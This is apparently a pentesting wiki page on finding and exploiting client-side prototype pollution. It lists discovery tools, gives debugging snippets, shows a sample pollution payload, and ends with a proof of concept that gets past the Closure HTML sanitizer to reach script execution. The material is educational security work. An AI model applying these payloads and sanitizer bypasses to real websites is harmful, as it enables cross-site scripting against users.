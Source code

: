 ```yaml
---
layout: page
title: Client Side Prototype Pollution
category: nodejs-deserialization
toc:
  sidebar: left
---
```


## Discovering using Automatic tools

The tools [**https://github.com/dwisiswant0/ppfuzz**](https://github.com/dwisiswant0/ppfuzz?tag=v1.0.0)**,** [**https://github.com/kleiton0x00/ppmap**](https://github.com/kleiton0x00/ppmap) **and** [**https://github.com/kosmosec/proto-find**](https://github.com/kosmosec/proto-find) can be used to **find prototype pollution vulnerabilities**.

Moreover, you could also use the **browser extension** [**PPScan**](https://github.com/msrkp/PPScan) to **automatically** **scan** the **pages** you **access** for prototype pollution vulnerabilities.

### Debugging where a property is used <a href="#id-5530" id="id-5530"></a>

```javascript
// Stop debugger where 'potentialGadget' property is accessed
Object.defineProperty(Object.prototype, "potentialGadget", {
  __proto__: null,
  get() {
    console.trace();
    return "test";
  },
});
```

### Finding the root cause of Prototype Pollution <a href="#id-5530" id="id-5530"></a>

Once a prototype pollution vulnerability has been identified by any of the tools, and if the code is not overly complex, you might find the vulnerability by searching for keywords such as `location.hash`, `decodeURIComponent`, or `location.search` in the Chrome Developer Tools. This approach allows you to pinpoint the vulnerable section of the JavaScript code.

For larger and more complex codebases, a straightforward method to discover the vulnerable code involves the following steps:

1. Use a tool to identify a vulnerability and obtain a payload designed to set a property in the constructor. An example provided by ppmap might look like: `constructor[prototype][ppmap]=reserved`.
2. Set a breakpoint at the first line of JavaScript code that will execute on the page. Refresh the page with the payload, pausing the execution at this breakpoint.
3. While the JavaScript execution is paused, execute the following script in the JS console. This script will signal when the 'ppmap' property is created, aiding in locating its origin:

```javascript
function debugAccess(obj, prop, debugGet = true) {
  var origValue = obj[prop];

  Object.defineProperty(obj, prop, {
    get: function () {
      if (debugGet) debugger;
      return origValue;
    },
    set: function (val) {
      debugger;
      origValue = val;
    },
  });
}

debugAccess(Object.prototype, "ppmap");
```

4. Navigate back to the **Sources** tab and select “Resume script execution”. The JavaScript will continue executing, and the 'ppmap' property will be polluted as expected. Utilizing the provided snippet facilitates the identification of the exact location where the 'ppmap' property is polluted. By examining the **Call Stack**, different stacks where the pollution occurred can be observed.

When deciding which stack to investigate, it is often useful to target stacks associated with JavaScript library files, as prototype pollution frequently occurs within these libraries. Identify the relevant stack by examining its attachment to library files (visible on the right side, similar to an image provided for guidance). In scenarios with multiple stacks, such as those on lines 4 and 6, the logical choice is the stack on line 4, as it represents the initial occurrence of pollution and thereby the root cause of the vulnerability. Clicking on the stack will direct you to the vulnerable code.

![https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg](https://miro.medium.com/max/1400/1*S8NBOl1a7f1zhJxlh-6g4w.jpeg)

## Finding Script Gadgets

The gadget is the **code that will be abused once a PP vulnerability is discovered**.

If the application is simple, we can **search** for **keywords** like **`srcdoc/innerHTML/iframe/createElement`** and review the source code and check if it l**eads to javascript execution**. Sometimes, mentioned techniques might not find gadgets at all. In that case, pure source code review reveals some nice gadgets like the below example.

### Example Finding PP gadget in Mithil library code

Check this writeup: [https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/](https://blog.huli.tw/2022/05/02/en/intigriti-revenge-challenge-author-writeup/)

## Recompilation of payloads for vulnerable libraries

- [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet#prototype-pollution)
- [https://github.com/BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution)

## HTML Sanitizers bypass via PP

[**This research**](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/) shows PP gadgets to use to **bypass the sanizations** provided by some HTML sanitizers libraries:

- **sanitize-html**

<figure><img src="../../../images/image (1140).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-7.png"><figcaption></figcaption></figure>

- **dompurify**

<figure><img src="../../../images/image (1141).png" alt="https://research.securitum.com/wp-content/uploads/sites/2/2020/08/image-9.png"><figcaption></figcaption></figure>

- **Closure**

```html
<!-- from https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/ -->
<script>
  Object.prototype['* ONERROR'] = 1;
  Object.prototype['* SRC'] = 1;
</script>
<script src=https://google.github.io/closure-library/source/closure/goog/base.js></script>
<script>
  goog.require('goog.html.sanitizer.HtmlSanitizer');
  goog.require('goog.dom');
</script>
<body>
<script>
  const html = '<img src onerror=alert(1)>';
  const sanitizer = new goog.html.sanitizer.HtmlSanitizer();
  const sanitized = sanitizer.sanitize(html);
  const node = goog.dom.safeHtmlToNode(sanitized);

  document.body.append(node);
</script>
```

## References

- [https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746](https://infosecwriteups.com/hunting-for-prototype-pollution-and-its-vulnerable-code-on-js-libraries-5bab2d6dc746)
- [https://blog.s1r1us.ninja/research/PP](https://blog.s1r1us.ninja/research/PP)
- [https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/#:\~:text=my%20challenge.-,Closure,-Closure%20Sanitizer%20has](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
